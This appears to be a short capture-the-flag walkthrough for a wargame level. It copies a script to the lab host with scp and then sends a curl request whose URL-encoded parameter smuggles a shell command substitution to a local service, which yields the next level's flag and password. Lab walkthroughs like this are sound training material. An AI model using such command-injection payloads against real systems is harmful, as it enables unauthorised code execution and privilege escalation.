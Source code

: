 host:
- `scp -P 4242 SCRIPT level12@192.168.56.101:/tmp/SCRIPT`
- paste the previous flag as the password

ssh:
- `curl "localhost:4646?x=%24%28%2F*%2FSCRIPT%29&y=yes"`
- `cat /tmp/flag`, copy the flag
- `su level13`, paste the flag as the password